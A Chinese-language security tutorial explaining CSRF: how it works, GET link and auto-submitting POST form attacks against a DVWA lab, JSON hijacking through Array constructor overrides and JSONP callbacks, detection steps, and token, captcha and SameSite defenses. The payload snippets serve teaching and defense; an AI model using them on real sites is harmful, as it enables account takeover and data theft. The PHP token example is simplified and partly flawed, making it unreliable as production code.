

# CSRF 跨站请求伪造

## 0. 引言

CSRF（Cross-Site Request Forgery，跨站请求伪造）曾被 OWASP 列为十大 Web 漏洞威胁之一。尽管名称带"跨站"，但它的原理与 XSS 不同：**CSRF 是由于未校验请求来源，攻击者在第三方站点发起 HTTP 请求，借受害者在目标网站的登录态（Cookie/Session）执行敏感操作**（更改密码、修改资料、关注好友等）。本文讲解产生原理、攻击手法、检测方法与防御手段。

## 1. 原理与分类



- CSRF 危害**依赖业务功能**：有些功能即使存在 CSRF 也无实际危害（如仅登录功能）；发消息、发微博类功能则可产生**蠕虫效果**（新浪、腾讯微博均曾发生 CSRF 蠕虫）；
- 与 XSS 的辨析：XSS 蠕虫（如 Samy）本质是利用 XSS 发起"本站请求伪造"（OSRF），与 CSRF 并不同——两者应视为完全不同的漏洞类型。

| 分类 | 手法 | 示例 |
|------|------|------|
| **CSRF 读** | 伪造请求获取返回的敏感信息 | JSON 劫持 |
| **CSRF 写** | 伪造请求修改网站数据 | 修改密码、发表文章、发消息 |

## 2. 攻击手法

### 2.1 GET 型：构造链接

以 DVWA CSRF 题目（Low 级别）为例，修改密码是 GET 请求，直接构造链接发给受害者：

```text
http://127.0.0.1/vulnerabilities/csrf/?password_new=hacker&password_conf=hacker&Change=Change
```

更隐蔽的方式：把链接嵌入 `` 图片标签放进受害者可能访问的页面（博客、论坛、邮件）。

### 2.2 POST 型：自动提交表单

```html
<html>
<form name="test" action="http://127.0.0.1/vulnerabilities/csrf" method="post">
  <input type="hidden" value="hacker" name="password_new">
  <input type="hidden" value="hacker" name="password_conf">
  <input type="hidden" value="Change" name="Change">
</form>
<script>document.test.submit();</script>  <!-- 访问即自动提交 -->
</html>
```

将 exploit.html 放到攻击者服务器并生成短链接发给受害者，受害者访问即触发。

### 2.3 JSON 劫持（CSRF 读）

本质也是未校验请求来源，用于窃取服务器返回的敏感信息，两种实现方式：

**方式一：覆写数据构造器（2006 年 Gmail 联系人劫持案例）**

```html
<script>
function Array() {           // 重定义 Array 构造器
  var obj = this, ind = 0, getNext;
  getNext = function(x) {
    obj[ind++] = getNext;    // 将数组元素 setter 指向 getNext
    if (x && x.toString().match(/@/)) { /* 收集联系人信息 */ }
  };
  this[ind++] = getNext;
}
</script>
<script src="http://mail.google.com/mail/?_url_scrubbed_"></script>  <!-- 加载目标 JSON -->
```

流程：`<script>` 加载目标 JSON → 覆写 Array 并设置元素 setter → setter 读取联系人信息。

**方式二：执行回调函数（当前最常见）**

```html
<script>
function any(obj) { alert(obj); }  // 自定义回调收集数据
</script>
<script src="http://act.buy.qq.com/w/newbie/queryisnew?callback=any"></script>
```

利用 JSONP 的 `callback` 参数指定处理函数，劫持跨域返回的数据（QQ 网购曾出现此漏洞）。

## 3. CSRF 检测方法

1. 抓包记录正常 HTTP 请求；
2. 分析请求参数是否**可预测**及其用途（危害取决于参数用途）；
3. 去掉或更改 referer 为第三方站点后重放请求；
4. 判断是否达到与正常请求同等效果——是则可能存在 CSRF。

自动化检测难在评估参数危害，目前多为半自动辅助（如 Burp Suite 的 CSRF PoC 生成功能），常需人工验证避免误报。

## 4. 防御 CSRF

核心思路：**令请求参数不可预测**。敏感操作使用 POST + 验证码或 Token 验证。

### 4.1 不推荐：Referer 限制

`javascript://` 伪协议可构造空 referer 绕过；而直接禁止空 referer 又会影响移动 App（其 HTTP 请求常为空 referer）。

### 4.2 验证码

在更改密码、修改资料等重要敏感操作上设置验证码（短信、图片等）；改密场景还可要求输入原密码（同样是不可预测值）。

### 4.3 Token 验证（最常用，用户无感知）

在表单中插入**不可预测的随机数**隐藏 Token，提交后由服务器比对：

```php
// 生成：使用 random_bytes 等密码学安全的随机源生成 Token（mt_rand 等伪随机数可被预测，不应用于安全场景）
$token = bin2hex(random_bytes(64));
// 存储：存入 $_SESSION（服务端校验用），可同时写入 Cookie
array_push($_SESSION['CSRF_TOKEN'], $token);
setcookie('CSRF_TOKEN', $token, time() + $expiry);
// 下发：表单中插入隐藏域
$hiddenInput = '<input type="hidden" name="token" value="' . $token . '">';
// 校验：比对提交的 Token 与 Session 中存储的 Token
if ($_POST['token'] !== $token) { /* 拒绝请求 */ }
```

也可取登录 Cookie 中的某值作为输入、经加密/哈希生成 Token（便于后台校验和区分用户）。PHP 站点可直接使用 [OWASP CSRFProtector](https://owasp.org/www-project-csrfprotector/)。

> **现代方案补充**：同源策略基础上设置 `SameSite` Cookie 属性（Lax/Strict）、双重提交 Cookie、以及 Origin 头校验，均可作为纵深防御手段。

## 5. 小结

- **原理**：未校验请求来源，第三方站点借受害者登录态发起伪造请求执行敏感操作；
- **分类**：CSRF 读（JSON 劫持）与 CSRF 写（改密/发消息等）；危害依赖业务功能，可产生蠕虫效果；
- **手法**：GET 构造链接（可藏入 img 标签）、POST 自动提交表单、JSONP 回调劫持；
- **检测**：抓包 → 分析参数可预测性 → 改 referer 重放 → 对比效果；
- **防御**：POST + Token/Session 比对（首推）、验证码兜底、SameSite Cookie 纵深防御；不推荐单纯 Referer 限制。

下一章讲解 SSRF 服务端请求伪造。